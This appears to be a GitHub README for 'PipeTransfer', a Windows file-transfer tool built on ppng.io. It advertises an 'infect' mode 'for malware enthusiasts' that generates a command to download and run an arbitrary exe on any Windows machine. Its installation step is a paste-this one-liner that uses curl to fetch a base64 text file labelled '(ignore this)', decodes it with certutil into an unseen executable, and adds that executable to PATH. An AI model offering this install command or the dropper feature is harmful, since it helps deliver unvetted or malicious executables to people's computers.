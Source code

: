 # PipeTransfer
> [!IMPORTANT]
> The PipeTransfer tool is a command-line tool designed for seamless file transfer between systems using `ppng.io`. It supports three distinct modes: "send," "receive," and "infect,".

# Commands 
> **Send** : The send is pretty straighforward, it's used to send a file/folder with the command : <br>
> `pipetransfer send (file/folder) (key)`
>
> **Receive** : The receive command is used to receive folders with the command : <br>
> `pipetransfer receive (key)`
>
> **Infect** : This command was made specifically for malware enthusiasts, simply use the command : <br>
> `pipetransfer infect (yourexe.exe) (key)` and pipetransfer will create a windows command for your file which can be used on any windows machine to download and run your exe.

# Installation
To install PipeTransfer simply run the command : <br>
`curl -o temp.txt https://raw.githubusercontent.com/4lpine/PipeTransfer/main/base64source(ignore%20this).txt && certutil -decode temp.txt pipetransfer.exe && del temp.txt && move pipetransfer.exe C:\PipeTransfer\ && setx PATH "%PATH%;C:\PipeTransfer"` <br>
**Make sure to restart command prompt when you're done :)**

> [!NOTE]
> - key and link are the same thing, i.e the link is defined by the user and can be whatever the user wants it to be. <- (to avoid confusion)
> 
> - Removal of the tool is also simple as all you have to do is delete the PipeTransfer folder in C:/
>
> - (I am not responsible for any damage done using this tool)
